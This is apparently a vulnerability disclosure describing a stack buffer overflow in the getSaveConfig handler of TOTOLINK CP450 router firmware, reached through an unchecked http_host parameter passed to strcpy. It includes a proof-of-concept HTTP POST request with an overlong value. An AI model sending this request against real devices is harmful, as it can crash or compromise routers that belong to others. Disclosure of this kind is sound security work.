

## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `getSaveConfig`, attackers can post the parameter `http_host` to `Var` without checking its' length. 


Then in line 24, the call to function `strcpy` will lead to stack overflow.

#### PoC

```
POST /cgi-bin/cstecgi.cgi?action=save&setting HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 306
Origin: http://192.168.0.254/adm/settings.asp
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "http_host": "a"*0x100
}
```


